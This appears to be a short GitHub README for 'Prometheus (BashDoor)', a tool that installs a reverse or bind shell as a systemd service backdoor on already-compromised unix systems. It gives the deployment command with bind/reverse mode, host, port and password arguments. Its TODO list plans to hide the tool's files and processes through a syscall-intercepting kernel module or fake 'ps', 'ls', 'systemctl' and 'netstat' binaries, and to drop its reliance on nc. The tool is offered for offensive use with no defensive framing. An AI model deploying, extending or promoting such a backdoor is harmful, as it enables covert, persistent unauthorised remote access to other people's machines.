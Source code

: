 # Prometheus (BashDoor)
Prometheus is a reverse/bind shell service backdoor to quickly deploy on rooted unix systems.

deploy.sh, n0sl33p_default and prometheus.service need to be all in the same folder.

Then deploy with:
`sudo ./deploy [bind/reverse] [PORT/HOST] [PASSWORD/PORT] (RETRYTIME if reverse)`


TODO:

-> Add a kernel module to intercept syscalls or fake "ps", "ls", "systemctl", "netstat" binaries to hide all files and processes

-> Make a nc-less version
